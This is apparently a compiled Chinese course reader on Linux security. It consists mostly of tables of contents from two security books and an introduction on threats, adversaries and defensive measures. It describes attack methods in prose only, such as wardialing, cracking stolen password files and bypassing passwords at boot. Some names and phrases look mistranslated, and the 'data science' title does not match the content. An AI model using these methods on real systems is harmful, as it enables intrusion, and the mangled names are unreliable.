# 数据科学实战


以下章节由您的课程经理特意为您选择用于本课程。章节选自不同来源，因此内部引用可能不匹配。感谢 Joseph Minieri 在编纂本书过程中的帮助。

# 第 2 章（承接上页）

## 2.13 旧瓶装新酒

### 2.13.1 升级你的 2.4 内核

### 2.13.2 升级你的 2.2 内核

### 2.13.3 升级 sendmail

### 2.13.4 强化 sendmail 以抵御 DoS 攻击

### 2.13.5 升级 SSH

### 2.13.6 升级 WU-FTPD

### 2.13.7 升级 Netscape

### 2.13.8 屏蔽网页广告

## 2.14 合则强，分则弱

## 2.15 TCP 封装（TCP Wrappers）

### 2.15.1 TCP 封装用法

### 2.15.2 TCP 封装高级用法

## 2.16 物理操作

### 2.16.1 启动入侵者的软盘或 CD-ROM

### 2.16.2 CMOS 重新配置

### 2.16.3 添加 CMOS 密码

### 2.16.4 防御单用户模式

### 2.16.5 防止通过软盘窃取数据

### 2.16.6 挫败 Ctrl-Alt-Delete 攻击

# 第 3 章

## 按子系统划分的常见黑客行为

### 3.1 NFS、mountd 和 portmap

### 3.2 Sendmail

#### 3.2.1 分离或多服务器以实现额外安全

#### 3.2.2 基本的 Sendmail 安全

#### 3.2.3 Sendmail 安全选项

#### 3.2.4 伪造邮件和新闻组发送者地址

#### 3.2.5 垃圾邮件从何而来？

#### 3.2.6 转售垃圾邮件（垃圾邮件中继）

#### 3.2.7 屏蔽垃圾邮件

#### 3.2.8 伪装垃圾邮件机器人

#### 3.2.9 允许受控中继

#### 3.2.10 允许 POP 和 IMAP 客户端发送邮件

#### 3.2.11 禁止开放邮件列表

#### 3.2.12 通过填满磁盘对 Sendmail 发起 DoS 攻击

### 3.3 Telnet

### 3.4 FTP

#### 3.4.1 配置匿名 FTP

#### 3.4.2 rsh、rcp、rexec 和 login 服务

### 3.5 R 服务

#### 3.5.1 R* 安全性

#### 3.5.2 R* 不安全性

### 3.6 DNS（named，又称 BIND）

#### 3.6.1 限制 Named 被攻破的后果

#### 3.6.2 为人类服务

### 3.7 POP 和 IMAP 密码

#### 3.7.1 命令行上的密码，哎呀！

### 3.8 玩转 Samba

#### 3.8.1 什么是 Samba？

#### 3.8.2 版本

#### 3.8.3 是否安装了 Samba？

#### 3.8.4 我拥有的是哪个版本的 Samba？

#### 3.8.5 smb.conf 文件

#### 3.8.6 smbpasswd 文件

#### 3.8.7 用户映射文件

#### 3.8.8 日志文件

#### 3.8.9 动态数据文件

#### 3.8.10 安全地配置 Samba

#### 3.8.11 Samba 网络安全

#### 3.8.12 Samba 安全文件

#### 3.8.13 用户安全

#### 3.8.14 Samba 管理安全

#### 3.8.15 使用 SSH 配合 Samba

### 3.9 防止 Squid 留下痕迹

### 3.10 syslog 服务

### 3.11 打印服务（lpd）

### 3.12 Ident 服务

### 3.13 INND 和新闻组

### 3.14 保护你的 DNS 注册信息

摘自：《Linux Firewalls, Third Edition》作者：Steve Suehring 和 Robert L. Ziegler

# 第 4 章

## 包过滤防火墙的基础概念

### 4.1 OSI 网络模型

#### 4.1.1 无连接协议与面向连接协议

#### 4.1.2 下一步步骤

### 4.2 IP 协议

#### 4.2.1 IP 寻址和子网划分

#### 4.2.2 IP 分片

#### 4.2.3 广播和组播

#### 4.2.4 ICMP

### 4.3 传输机制

#### 4.3.1 UDP

#### 4.3.2 TCP

### 4.4 不要忘记 ARP

### 4.5 主机名与 IP 地址

#### 4.5.1 IP 地址与以太网地址

### 4.6 路由：将数据包从此处传输到彼处

### 4.7 服务端口：系统程序的入口

#### 4.7.1 典型的 TCP 连接：访问远程网站

### 4.8 总结

# 第 5 章 数据包过滤概念

## 5.1 数据包过滤防火墙

## 5.2 选择默认的数据包过滤策略

## 5.3 拒绝与丢弃数据包

## 5.4 入站数据包

### 5.4.1 远程源地址过滤

### 5.4.2 本地目标地址过滤

### 5.4.3 远程源端口过滤

### 5.4.4 本地目标端口过滤

### 5.4.5 入站 TCP 连接状态过滤

### 5.4.6 探测与扫描

### 5.4.7 拒绝服务攻击

### 5.4.8 源路由数据包

## 5.5 出站数据包

### 5.5.1 本地源地址过滤

### 5.5.2 远程目标地址过滤

### 5.5.3 本地源端口过滤

### 5.5.4 远程目标端口过滤

### 5.5.5 出站 TCP 连接状态过滤

## 5.6 私有网络服务与公共网络服务

### 5.6.1 保护非安全的本地服务

### 5.6.2 选择运行的服务

## 总结

# 第 6 章 IPTABLES：Linux 防火墙管理程序

## 6.1 IPFW 与 Netfilter 防火墙机制的区别

### 6.1.1 IPFW 数据包遍历

### 6.1.2 Netfilter 数据包遍历

## 6.2 iptables 基本语法

## 6.3 iptables 特性

### 6.3.1 NAT 表特性

### 6.3.2 mangle 表特性

## 6.4 iptables 语法

### 6.4.1 filter 表命令

### 6.4.2 filter 表目标扩展

### 6.4.3 filter 表匹配扩展

### 6.4.4 NAT 表目标扩展

### 6.4.5 mangle 表命令

## 6.5 总结

# 第 7 章 构建和安装独立防火墙

## 7.1 iptables：Linux 防火墙管理程序

### 7.1.1 构建还是购买：Linux 内核

### 7.1.2 源地址和目标地址选项

## 7.2 初始化防火墙

### 7.2.1 防火墙示例中使用的符号常量

### 7.2.2 启用内核监控支持

### 7.2.3 移除现有规则

### 7.2.4 重置默认策略并停止防火墙

### 7.2.5 启用 loopback 接口

### 7.2.6 定义默认策略

### 7.2.7 隐蔽扫描和 TCP 状态标志

### 7.2.8 使用 Connection 绕过规则检查

### 7.2.9 源地址欺骗及其他不良地址

## 7.3 保护非特权端口上的服务

### 7.3.1 分配给非特权端口的常见本地 TCP 服务

### 7.3.2 分配给非特权端口的常见 UDP 服务

## 7.4 启用基本的必需互联网服务

### 7.4.1 允许 DNS（UDP/TCP 端口 53）

### 7.4.2 过滤 AUTH 用户识别服务（TCP 端口 113）

## 7.5 启用常见 TCP 服务

### 7.5.1 电子邮件（TCP SMTP 端口 25，POP 端口 110，IMAP 端口 143）

### 7.5.2 允许 Usenet 新闻服务（TCP NNTP 端口 119）

### 7.5.3 Telnet（TCP 端口 23）

### 7.5.4 SSH（TCP 端口 22）

### 7.5.5 FTP（TCP 端口 21、20）

### 7.5.8 RealAudio、RealVideo 和 QuickTime（TCP 端口 554 和 7070）

## 7.6 启用常见 UDP 服务

### 7.6.1 traceroute（UDP 端口 33434）

### 7.6.2 访问 ISP 的 DHCP 服务器（UDP 端口 67、68）

### 7.6.3 访问远程网络服务器（UDP 端口 123）

## 7.7 过滤 ICMP 控制和状态消息

### 7.7.1 错误状态和控制消息

### 7.7.2 ping 回显请求（类型 8）和回显应答（类型 0）控制消息


## 7.8 记录被丢弃的入站数据包

## 7.9 预先拒绝访问问题站点

## 7.11 安装防火墙

### 7.11.1 调试防火墙脚本的技巧

### 7.11.2 在 Red Hat 和 SUSE 上开机启动防火墙

### 7.11.3 在 Debian 上开机启动防火墙

### 7.11.4 安装动态 IP 地址防火墙

## 7.12 总结

摘自：《Real World Linux Security》修订与更新第二版，作者 Bob Toxen

# 第二部分

# 检测入侵

# 第 8 章

# 监控系统

## 8.1 日志文件

## 8.2 日志文件：措施与反制措施

## 8.3 使用 Logcheck 检查你从未检查过的日志文件

## 8.4 使用 Portentry 锁定黑客

## 8.5 Hostentry

## 8.6 呼叫系统管理员：破解正在进行中！

## 8.7 自动呼叫示例

## 8.8 基于自动呼叫示例的构建

## 8.9 使用 telnet 和 rsh

## 8.10 使用 Arwatch 捕获 ARP 和 MAC 攻击

## 8.11 监控端口使用情况

## 8.12 使用 Ethereal 监控攻击

### 8.12.1 构建 Ethereal

### 8.12.2 使用 Ethereal

## 8.13 使用 tcpdump 监控局域网

### 8.13.1 构建 tcpdump

### 8.13.2 使用 tcpdump

## 8.14 使用欺骗工具包 (DTK) 监控扫描器

## 8.15 监控进程

### 8.15.1 监控负载

## 8.16 Cron：监视攻击者

## 8.17 主叫号码识别

## 8.18 查找可疑文件

### 8.18.1 分析可疑文件

### 8.18.2 定期比较文件内容

## 8.19 Tripwire

### 8.19.1 安装 Tripwire

### 8.19.2 使用 Tripwire

### 8.19.3 Tripwire 无法防护的内容

### 8.19.4 Tripwire 的替代方案

## 8.20 检测已删除的可执行文件

## 8.21 检测混杂模式网卡

### 8.21.1 L0pht Antisniff

## 8.22 查找处于混杂模式的进程

## 8.23 自动检测被篡改的 Web 页面

摘自：Steve Suehring 和 Robert L. Ziegler 著《Linux Firewalls, Third Edition》（Linux 防火墙，第三版）

# 第 9 章

## 入侵检测与响应

- 9.1 检测入侵
- 9.2 表明系统可能已被入侵的症状
  - 9.2.1 系统日志指示
  - 9.2.2 系统配置指示
  - 9.2.3 文件系统指示
  - 9.2.4 用户账户指示
  - 9.2.5 安全审计工具指示
  - 9.2.6 系统性能指示
- 9.3 如果系统已被入侵该怎么办
- 9.4 事件报告
  - 9.4.1 为什么要报告事件？
  - 9.4.2 你可能会报告哪类事件？
  - 9.4.3 向谁报告事件？
  - 9.4.4 提供什么信息？
  - 9.4.5 去哪里获取更多信息？
- 9.5 摘要

# 第 10 章

## 入侵检测工具

- 10.1 入侵检测工具包：网络工具
  - 10.1.1 交换机和集线器及其重要性
  - 10.1.2 嗅探器放置
  - 10.1.3 ARPWatch
- 10.2 根kit 检查器
  - 10.2.1 运行 Chkrootkit
  - 10.2.2 如果 Chkrootkit 提示计算机已感染怎么办？
  - 10.2.3 Chkrootkit 和类似工具的限制
  - 10.2.4 安全地使用 Chkrootkit
  - 10.2.5 何时应运行 Chkrootkit？
- 10.3 文件系统完整性
- 10.4 日志监控
  - 10.4.1 Swatch
- 10.5 系统如何被入侵
  - 10.5.1 经常备份
  - 10.5.2 经常更新
  - 10.5.3 经常测试
- 10.6 摘要

# 第 11 章

## 网络监控与攻击检测

- 11.1 监听网络
  - 11.1.1 三个有价值的工具
- 11.2 TCPDump：简要概述
  - 11.2.1 获取和安装 TCPDump
  - 11.2.2 TCPDump 选项
  - 11.2.3 TCPDump 表达式
  - 11.2.4 超越基础：使用 TCPDump
- 11.3 使用 TCPDump 捕获特定协议
  - 11.3.1 在现实世界中应用 TCPDump
  - 11.3.2 通过 TCPDump 观察攻击
  - 11.3.3 使用 TCPDump 记录流量
- 11.4 使用 Snort 进行自动化入侵监控
  - 11.4.1 获取和安装 Snort
  - 11.4.2 配置 Snort
  - 11.4.3 测试 Snort
  - 11.4.4 接收警报
  - 11.4.5 关于 Snort 的最后思考
- 11.5 使用 ARPWatch 进行监控
- 11.6 摘要

摘自：Bob Toxen 著《Real World Linux Security, Revised & Updated Second Edition》（真实世界的 Linux 安全，修订更新第二版）

# 第三部分

## 从入侵中恢复

# 第 12 章

## 重新控制你的系统

- 12.1 查找攻击者正在运行的进程
  - 12.1.1 处理已删除的可执行文件
- 12.2 处理正在运行的攻击者进程
  - 12.2.1 常见的木马
- 12.3 断开调制解调器、网络、打印机和系统

# 第 13 章

## 查找和修复损坏

- 13.1 检查 `/var/log` 日志
- 13.2 `syslogd` 和 `klogd` 守护进程
- 13.3 远程日志记录
- 13.4 解读日志文件条目
  - 13.4.1 `lastlog`
  - 13.4.2 `messages`
  - 13.4.3 `syslog`
  - 13.4.4 `kernlog`
  - 13.4.5 `cron`
  - 13.4.6 `xferlog`
  - 13.4.7 `daemon`
  - 13.4.8 `mail`
- 13.5 检查其他日志
- 13.6 检查 TCP Wrapper 响应
- 13.7 文件系统如何被损坏
- 13.8 植入虚假数据
- 13.9 被篡改的监控程序
- 13.10 困在镜屋中
- 13.11 重新获得控制权
- 13.12 查找被攻击者篡改的文件
  - 13.12.1 解读 `tar -d` 的输出
  - 13.12.2 使用 `RPM` 加速检查
  - 13.12.3 `RPM` 修复
  - 13.12.4 数据库恢复
  - 13.12.5 外围设备损坏
  - 13.12.6 通过“邪恶电子”实施的盗窃
  - 13.12.7 内核如何受损
- 13.13 封堵漏洞
  - 13.13.1 受损数据留下的踪迹


### 13.14 查找 set-UID 程序
499

### 13.15 查找 mstream 特洛伊木马
500

## 第 14 章
## 寻找攻击者的系统
501

### 14.1 使用 nslookup 追踪数字 IP 地址
501

### 14.2 使用 dig 追踪数字 IP 地址
502

### 14.3 谁是共产主义者：查找 .com 所有者
502

### 14.4 直接从 IP 地址查找实体
504

### 14.5 查找 G-Man：查询 .gov 系统
504

### 14.6 使用 ping
506

### 14.7 使用 traceroute
507

### 14.8 邻近系统对黑客的追踪
508

### 14.9 近期国际黑客追踪案例
508

### 14.10 确保你找到了攻击者
508

### 14.11 其他系统管理员：他们在乎吗？
511

#### 14.11.1 为系统管理员准备你的案件
512

## 第 15 章
## 让“封锁”让黑客自乱阵脚
513

### 15.1 警方：大规模搜捕还是笨拙的警察？
513

#### 15.1.1 FBI
514

#### 15.1.2 美国特勤局
515

#### 15.1.3 其他联邦机构
516

#### 15.1.4 州级机构
516

#### 15.1.5 地方警察
517

#### 15.1.6 准备你的案件
517

#### 15.1.7 追踪被盗数据
518

#### 15.1.8 证据保管
519

### 15.2 起诉
519

### 15.3 允许非法活动的 ISP 的法律责任
520

### 15.4 反制罪行
521

#### 15.4.1 法律问题
521

#### 15.4.2 大规模垃圾邮件
521

#### 15.4.3 死亡之 Ping
522

#### 15.4.4 敌意 Java 小程序
523

#### 15.4.5 黑市交易
523

# 附录 A
# 制定安全策略
525

- A.1 通用策略
  526
- A.2 个人使用策略
  527
- A.3 账户策略
  528
- A.4 电子邮件策略
  530
- A.5 即时通讯（IM）策略
  531
- A.6 Web 服务器策略
  532
- A.7 文件服务器和数据库策略
  533
- A.8 防火墙策略
  533
- A.9 桌面策略
  534
- A.10 笔记本电脑策略
  535
- A.11 处置策略
  538
- A.12 网络拓扑策略
  539
  - A.12.1 内部网络拓扑策略
    540
- A.13 问题报告策略
  542
- A.14 所有权策略
  542
- A.15 策略本身的策略
  543

# 附录 B
# 案例研究

- B.1 不可能任务的技术
  545
- B.2 间谍
  548
  - B.2.1 工业间谍
    549
- B.3 狂热分子与自杀式袭击
  549
- B.4 伯克利系统内鬼的忏悔
  551
- B.5 领域骑士（取证）
  554
- B.6 Ken Thompson 攻破海军系统
  556
- B.7 虚拟机木马
  557
- B.8 AOL 的 DNS 修改灾难
  558
- B.9 我是无辜的，我告诉你！
  560
- B.10 使用笔记本电脑和公用电话进行破解
  561
- B.11 从顶层截留几分钱
  562
- B.12 非营利组织时运不济
  562
- B.13 坚持对付顽固的系统管理员终获回报
  564
- B.14 随附 Nimda 的网络病毒
  565
- B.15 分片攻击
  567
- B.16 IP 伪装对 ICMP 失效
  568
- B.17 死亡之 Ping 击沉 Duck 航运公司
  569
- B.18 队长，我们正在被扫描！（隐蔽扫描）
  570
- B.19 电缆模型：黑客的梦想
  570
- B.20 使用 Sendmail 阻断电子邮件攻击
  571
- B.21 Sendmail 账户猜测
  572
- B.22 神秘的入口
  572
- B.23 你正在被跟踪
  573
  - B.23.1 Pentium III 序列号
    573
  - B.23.2 Microsoft 的 GUID 允许对在线用户进行监控
    573
- B.24 分布式拒绝服务（协同）攻击
  575
- B.25 特洛伊木马
  578
  - B.25.1 为什么使用 ICMP 回显包以及如何操作？
    579
  - B.25.2 隐蔽特洛伊木马的未来发展方向
    580
  - B.25.3 混杂模式内核消息
    581
- B.26 通过 TCP 端口 98 的 Linuxconf
  581
- B.27 恶意 HTML 标签和脚本
  583
- B.28 使用 syslog() 格式化程序
  584

# 附录 C
# 最新入侵与防御的互联网资源
585

- C.1 邮件列表——强制要求的
  586
  - C.1.1 美国政府 CERT 协调中心
    587
  - C.1.2 美国政府 CIAC
    587
  - C.1.3 Bugtrap ISS' X-Force
    587
  - C.1.4 mail-abuse.org 站点
    588
- C.2 邮件列表——可选的
  589
  - C.2.1 SSH 邮件列表
    589
  - C.2.2 Network World Fusion 邮件列表
    589
- C.3 新闻组
  589
- C.4 安全站点的 URL
  590
  - C.4.1 Kurt Seifried 的站点
    590
  - C.4.2 Security Focus
    590
  - C.4.3 取证
    590
  - C.4.4 Hackerwhacker 站点
    590
  - C.4.5 黑客端口号
    590
  - C.4.6 理解 Linux 病毒
    591
  - C.4.7 FBI 的 NIPC
    591
  - C.4.8 FIRST
    591
  - C.4.9 Linux 每周新闻安全页面
    591
  - C.4.10 Linux Today
    591
  - C.4.11 SANS 学院
    591
- C.5 安全工具的 URL
  592
  - C.5.1 作者的站点
    592
  - C.5.2 下载 SHeLl (SSH)
    593
  - C.5.3 下载 Bastille Linux
    594
  - C.5.4 下载 SuSE 加固脚本
    594
  - C.5.5 下载 Linux 入侵检测系统
    594
  - C.5.6 Pretty Good Privacy (PGP)
    595
  - C.5.7 GNU Privacy Guard (GPG)
    595
  - C.5.8 tcpdump 实用程序
    595
  - C.5.9 基于 GUI 的 Ethereal 嗅探器
    595
  - C.5.10 sniffit 实用程序
    596
  - C.5.11 下载 Tripwire 实用程序
    596
  - C.5.12 下载 Tripwire 的替代方案
    596
  - C.5.13 下载 Nessus 安全审计器
    597
  - C.5.14 下载 SARA 安全审计器
    597
  - C.5.15 下载 nmap
    598
  - C.5.16 下载 Snort 攻击检测器
    598
  - C.5.17 下载 SHADOW
    598
  - C.5.18 下载 SAINT 安全审计器
    598
  - C.5.19 下载 IP 链配置工具
    599
  - C.5.20 下载 SSL
    599
  - C.5.21 下载 sslswrap
    599
  - C.5.22 SSH 封装的 CVS 网站
    600
  - C.5.23 下载加密磁盘驱动程序
    600
  - C.5.24 无需 Root 权限的 Sendmail
    600
  - C.5.25 下载 postfix
    600
  - C.5.26 Libsafe
    600
  - C.5.27 已观察到的攻击
    601
  - C.5.28 使用 Sam Spade 分析你的攻击者
    601
- C.6 文档的 URL


# C.6
601
## C.6.1 Linux 文档
601
## C.6.2 编写安全程序
602
## C.7 通用工具的 URL
602
### C.7.1 ddd 调试器
602
### C.7.2 时区计算器
603
## C.8 规范和定义的 URL
603
### C.8.1 橙色书
603
### C.8.2 RFC 1813: NFS 版本 3
603
### C.8.3 NSA 计算机安全术语词汇表
604
### C.8.4 CNET 计算机术语词汇表
604
## C.9 供应商软件与更新
604
### C.9.1 Red Hat
604
### C.9.2 Slack
604
### C.9.3 SuSE
605
### C.9.4 Mandrake
605
### C.9.5 Caldera
605
### C.9.6 Debian
605
### C.9.7 Yellow Dog
605
## C.10 其他软件更新
606
### C.10.1 下载 Sendmail
606
### C.10.2 PostgreSQL 数据库
606
### C.10.3 开源代码库
607

# 附录 D
## 书籍、CD-ROM 和视频
609
### D.1 Linux 系统安全
609
### D.2 构建 Linux 和 OpenBSD 防火墙
609
### D.3 Samba：整合 UNIX 和 Windows
609
### D.4 Linux Sendmail 管理
610
### D.5 秘密与谎言：网络化世界中的数字安全
610
### D.6 杜鹃蛋
610
### D.7 黑客
611
### D.8 UNIX 完整指南
611
### D.9 矛盾的计算机
611
### D.10 美国国防部 DISA 资源
612
#### D.10.1 CyberProtect CD-ROM
612
#### D.10.2 安全入门 201 视频
612
#### D.10.3 安全 201 视频
612
#### D.10.4 理解公钥基础设施 (PKI) 视频
613
#### D.10.5 NSA 视频
613
#### D.10.6 正在注视你的耳朵
613
#### D.10.7 面向审计员和评估师的信息安全 (IA) CD-ROM
613
#### D.10.8 事件准备与响应 CD-ROM
613
#### D.10.9 国防部信息安全管理 (INFOSEC) 意识 CD-ROM
614
#### D.10.10 运营信息系统安全 (OISS) 第 1&2 卷 CD-ROM
614
### D.11 TCP/IP 联网 第 I、II 和 III 卷
614


## 引言

基本上，你需要防范五类事物。

### 1. 入侵者读取你的机密数据

入侵者可能会看到你的产品设计方案、未来的竞争计划、客户的姓名和地址、客户的信用卡和银行账户信息、你的银行账号及内容、敏感的系统数据（包括调制解调器电话号码、密码等）。

通常，如果入侵者将这些数据提供给其他人，造成的危害会更大。仅仅让一个入侵者知晓你的产品设计可能不是严重问题，但如果将其发布在互联网上，让你的竞争对手获取到，那就是严重的问题。如果客户的信用卡号码泄露并公之于众（正如美国在线公司曾经发生的情况那样），人们就会害怕与你做生意。

### 2. 入侵者修改你的数据

这是最令人痛惜和破坏性最大的入侵行为。入侵者可以篡改设计，而你的员工可能尚未察觉。这可能导致生命损失和极其严重的法律责任。假如制药公司的药物配方被修改，汽车或飞机的设计被更改，或者操作工厂或派对 X 射线或伽马设备的程序被篡改，后果不堪设想。患者的医疗记录也可能被篡改。上述任何情况都可能导致死亡。它们还可能引发大规模的诉讼。

入侵者可能并未意识到其行为可能造成的危害。在加利福尼亚州伯克利市的一起案例中，入侵者进入了控制回旋加速器的系统，该回旋加速器当时用于癌症治疗。入侵者曾导致银行的 ATM 向特定人员吐出现金，并对机构（包括中央情报局）的网页进行尴尬的篡改。

### 3. 入侵者删除你的数据

其危害显而易见，良好的备份计划可以将检测到的损害限制在最小范围内。

### 4. 拒绝服务

这是指入侵者导致计算机或网络变得“可用性降低”或“不可用”。可用性降低包括因入侵者诱导的负载或重新调度而导致系统大幅变慢，由于入侵者关闭部分调制解调器或端口，导致合法用户可用的调制解调器或端口减少等。不可用意味着入侵者导致系统崩溃或宕机。

入侵者可能会觉得让控制电话交换局的计算机崩溃很有趣。不幸的是，这会阻挡 911 紧急呼叫，并中断空中交通管制系统中控制塔与远程无线电天线及其他控制塔之间的语音和雷达电路。这可能导致生命损失。请注意，在美国，任何干扰飞机运行并导致生命损失的行为都是联邦处罚，最高可判处死刑。

### 5. 入侵者从你的站点发动其他攻击

这可能导致因带宽丢失和其他站点将你的站点视为“入侵者站点”而封锁你，从而引发拒绝服务问题。这种攻击可能导致负面宣传和潜在的法律责任。

上述任何攻击都可能造成严重后果，如公司破产或系统管理员被解雇。当然，后者问题是最严重的。

## 2. 你的敌人是谁？

### 1. 入侵者和黑客

通常，入侵者认为他们突破防线的公司或机构是邪恶的，或者仅仅是无关紧要的。有时他们的行为是良性的（即不破坏或公开机密数据，也不造成拒绝服务），但他们耗费系统管理员大量时间和精力将其封禁。有时他们的目标是造成尽可能大的破坏。他们的攻击随机发生或趋向于“知名”站点，通常是大型知名公司和政府机构。他们非常难以抓获。

有时他们会通过笔记本电脑接入，以支付任何电话订单。

它们可能会通过一个被入侵系统，经由第二个被入侵系统，甚至通过一长串被入侵系统进入。复杂的攻击使用长长的被入侵系统链，使得追踪和抓获黑客变得困难甚至不可能。多年来，黑客定期公布从被入侵系统中盗取的顾客卡号。然而，在1999年末，发生了多起案件，其中黑客从`Pacific Telephone`和一家航空公司等商户那里获取了大量被盗信用卡号，并索要数百万美元以不公布这些卡号。钱被支付了，黑客随后公布了有效的卡号。其动机是贪婪和盗窃。

一些人闯入系统是为了获得“行动基地”，以便从那里攻击其他系统。他们在这类系统上的目标是不被检测到；系统管理员（`SysAdmin`）会格外警惕，直到他们捕捉到“潜伏”数月或数年的入侵者。他们可能使用这些系统拥有不可追踪的账户，或者稍后使用它们对另一台计算机进行分布式拒绝服务（`DDOS`）攻击。可靠地检测甚至这些“安静黑客”的技术将在后文深入介绍。

### 2. 心怀不满的现任员工

这些攻击同样难以预测，但适当的审计可以捕获它们，并因害怕被抓而降低攻击发生的可能性。强烈建议频繁执行备份，并以一种方式存储备份，确保没有任何一个人能导致其丢失或失效。

当然，如果某项行动被给予较差的评价，即将受到斥责或不愉快的指派时，而此人又即将获得访问重要数据或硬件的权限，那么谨慎地管理系统备份、甚至更改门禁密码等，是明智之举。

### 3. 心怀不满的前员工

这些攻击在一定程度上是可以预测的，假设被解雇的员工可能会做的第一件事就是试图破坏系统。大多数系统管理员都曾有过这种悲伤的职责：当员工被老板或人力资源部门解雇时，请求禁用其计算机访问权限。自然，任何可能无意中给予该员工访问权限的人都应被告知解雇一事。这包括拥有访问代码的供应商和其他员工。

这让人想起加利福尼亚一家航空公司员工的悲剧性案件：该员工被解雇，但没有人费心告知其他员工或安保人员。公众并不知晓，作为“惯例”，航空公司员工当时不需要通过金属探测器。在2001年9月11日恐怖袭击事件后，情况已不再如此。这名已被解雇的员工利用这一点，将枪带上飞机并射杀了机组人员。飞机坠毁，无人生还。安全即是业务。

### 4. 竞争对手

你的竞争对手会试图获取你的产品设计、客户名单、未来计划等。这些信息通常被用于窃取你的设计和客户，但有时尴尬的信息会被公开。

虽然严格来说猎头不算你的竞争对手，但他们会不择手段获取你员工的名字和电话号码，以便将他们挖走。一些公司会在其网站上公布员工姓名和电话号码。建议不要这样做，以防止员工成为“挖角”的目标。你可能希望公布那些与公司外部人员交互的少数员工的姓名和电话号码。

### 5. 间谍

尽管苏联已经解体，但世界上仍有大量的间谍活动。其中一些是一个国家对另一个国家的间谍活动。存在大量活动，一个国家的间谍潜伏在其他国家的工业界以获取不正当优势。工业间谍活动层出不穷。

### 6. 罪犯

虽然黑客通常并非受金钱驱动，但犯罪元素可能如此，他们闯入计算机的唯一目的是盗窃、勒索和其他具有极高利润的活动。有组织犯罪可能会参与其中。

### 7. 极端分子和恐怖分子

一些个人和一些资金充足、组织严密的机构，基于他们自认为的道德或宗教十字军东征，可能会试图入侵你的系统。这些不仅仅是来自地球另一边的疯子。有许多团体，其成员过去曾对计算机甚至实物对象实施犯罪行为。包括各种反政府类型、“活动家”、反对大企业或特定利益者、政治极端分子、支持这一方反对那一方者。如果某人是一家公司或机构的系统管理员，而该机构可能是极端分子团体的目标，那么就需要采取预防措施。几乎没有人能免受其害。

## 1.3 他们希望达成什么

他们希望达成什么？黑客希望留下他们的印记，以便同行看到，并希望因此声名远扬。那些安静的入侵者只想要你系统的CPU周期和你的网络带宽，以攻击其他系统。心怀不满和被解雇的员工显然想要伤害你。删除或修改关键数据，或公布机密数据，通常是他们的目标。联邦调查局（`FBI`）声称50%的攻击来自内部；而本作者的经验接近于零。

竞争对手最感兴趣的是增加他们的利润和市场份额，但会不惜代价降低你的份额以削弱你。他们会利用任何能获取的信息。他们最常针对的是客户名单以及未来产品或营销活动的计划。

通常，间谍希望利用他们的优势。显然，罪犯会试图颠覆你的系统以允许盗窃；获取信用卡号是一种常见盗窃。勒索也很可能，尽管只有未遂的才会被公开报道。本作者怀疑成功的勒索案件是悄无声息地支付了赎金。

极端分子，有时被视为恐怖分子，希望给你造成损害并为他们的事业赢得公众关注。破坏网站很常见，本书讨论了一些防止此类行为的优秀策略。许多人会试图扰乱你的运营，关闭你的电子邮件、网站、制造工厂，或者从你的系统中擦除或篡改数据。

许多高管、销售人员以及工程师的笔记本电脑上确实存放着大量绝对关键且机密的数据，随时可能被窃取！在过去三年中，我的两位客户在持枪情况下被夺走笔记本电脑；一位在美国的高档酒店，另一位在非洲的酒店房间内，半夜时分。第三位客户抓到一名竞争对手试图获取其机密计算机文件。仅在美国，1999年就有多达337,000台笔记本电脑被窃。

## 1.4 成本：防护与入侵

许多人没有意识到被入侵的成本：客户流失、商品被盗、负面宣传、人员死亡等。这些成本是可以计算的，防护成本也可以计算。

本书介绍了如何计算防护成本与入侵成本，以及如何防止大多数入侵，如何为入侵做准备，以及如何快速从入侵中恢复，有时只需几分钟。你不需要宕机数天。`eBay.com`、`白宫`以及许多其他高知名度网站都曾宕机。

## 1.5 保护硬件


文中讨论了系统的物理安全，以及软盘驱动器、CD-ROM驱动器、磁带驱动器的访问等问题。许多人并不意识到，几乎任何系统都可以在一分钟内被夺走：插入一块恶意软盘或CD-ROM，然后按下重置按钮，或在开关、插头或建筑物主断路器处短暂中断电源即可。许多系统配置宽松，会询问入侵者希望从磁盘中的哪个文件引导内核。如果没有特殊配置，仅在启动`Linux`时提供单一参数即可绕过所有密码检查。

“软盘”（floppy）是使用柔性塑料封套的磁介质磁盘的原始名称。据作者回忆，`IBM`在制作商务演示文稿并穿着三件套西装时，为使术语听起来更专业，创造了“diskette”（小磁盘）一词。

## 1.6 保护网络和调制解调器访问

主题包括保护调制解调器和网络免受各种攻击。这些攻击的范围从流氓人员轻松确定调制解调器的电话号码，到入侵者窃听电话线路。文中涵盖了从使拨号扫描难以发现调制解调器，到防止入侵者桥接进入内部网络以访问未受保护系统的策略。

> 拨号扫描（Wardialing）是指按顺序拨打大量电话号码，以确定哪些号码连接了调制解调器。通常，拨号扫描软件可以根据登录提示分析回答系统的类型。它会尝试常见的账户、密码以及针对特定系统的攻击。

## 1.7 保护系统访问

本书涵盖了如何通过正确的密码策略和配置、禁用不安全的软件和服务、升级不安全版本的程序、注销非活动用户、在破解者利用新入侵技术（包括受信任软件中偶尔出现的安全漏洞）攻击系统之前发现这些技术，以及避免破解者设置的各种陷阱，来保护系统的访问权限。

书中还讨论了一系列进一步降低漏洞风险的技术和工具。互联网上的许多 `Linux` 系统（以及非 `Linux` 系统）提供 `Telnet` 和 `FTP` 服务，可以通过穷举密码搜索被破解。许多系统拥有弱密码，甚至不需要穷举搜索即可破解。在许多系统中，入侵者只需使用 `FTP` 获取加密密码文件的副本，并使用广泛可用的工具在自己的系统上进行破解。随后，他即“拥有”了该系统（以未经授权的 `root` 权限控制它）。在其他系统中，他利用 `POP` 或 `IMAP` 守护程序、`named`、`sendmail` 中的已知漏洞，或破坏 `CGI` 程序。文中详细解释了如何构建系统的同心安全墙地图，入侵发生前必须依次突破每一道墙。我在书中将这些同心结构称为“安全环”。如果只有一道墙且存在多处可能破裂的地方，破解者只需突破一处即可获得完全访问权限。然而，这些“安全环”能阻止破解者造成重大问题，因为破解者不太可能依次突破所有防线。

许多领先的安全专家使用“纵深防御”一词来表达相同的含义，其中包括 `www.sefried.org` 的 `Kurt Sefried` 和 `Internet Security Systems` 的 `Mike Warfare`。非常幸运，这两位著名的专家都抽出时间审阅了本书并提供了许多建议。

## 保护文件

在许多系统中，用户需要接受关于如何为文件设置正确权限、更改初始密码以及为何某些密码优于其他密码的安全教育。有时，用户会发现一个“很酷”的 `CGI` 脚本或程序，并请求您安装它，或者让他们拥有自行安装它的权限。这些脚本或程序常常存在严重的、不明显的安全漏洞。

